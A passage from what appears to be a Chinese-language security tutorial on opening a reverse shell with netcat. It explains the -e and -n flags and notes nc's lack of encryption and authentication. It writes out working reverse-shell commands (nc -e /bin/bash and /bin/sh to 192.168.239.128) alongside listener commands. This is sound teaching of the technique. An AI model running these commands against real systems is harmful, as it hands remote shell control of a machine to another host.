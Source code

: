 ### nc反弹shell

需要目标主机安装了nc

```bash
攻击者：nc -lvp 4566

受害者：nc -e /bin/bash 192.168.239.128 4566
123
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/e2f8f9e324615d69dbf8e6ed8b7e8690.png#pic_center)

```bash
攻击者：nc -lvp 4444

受害者：nc -e /bin/sh 192.168.239.128 4444
123
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/d37a6087948483679f1a4db6f4e70b5f.png#pic_center)

### 原理

nc -e /bin/bash 192.168.239.128 4566

```bash
-e prog 程序重定向，一旦连接，就执行
1
```

这里的-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程，可以看到远程已经成功反弹到了shell，并且可以执行命令。

**其他：**
注意之前使用nc监听端口反弹shell时都会有一个警告：`192.168.239.130: inverse host lookup failed: Unknown host`根据nc帮助文档的提示加上-n参数就可以不产生这个警告了，-n参数代表在建立连接之前不对主机进行dns解析。
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/843c8a4a6ff80812f949034390efdfff.png#pic_center)

------

## 安全性

nc缺乏加密和身份验证的能力。
当我在物理机（类似中间人了）通过抓包可以看到，nc是明文传输的，再者，控制对方的时候没有身份验证，安全性存在隐患
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/d27f54d41e7e25d20ad81c73b76137c4.png#pic_center)

解决办法是可以使用Ncat，Ncat包含于nmap工具包中，实现数据加密传输。
kali和Cent没有这个玩意，这里我手动安装一下

```bash
sudo apt-get install ncat	#kali
yum install nmap-ncat -y	#Cent
12
```
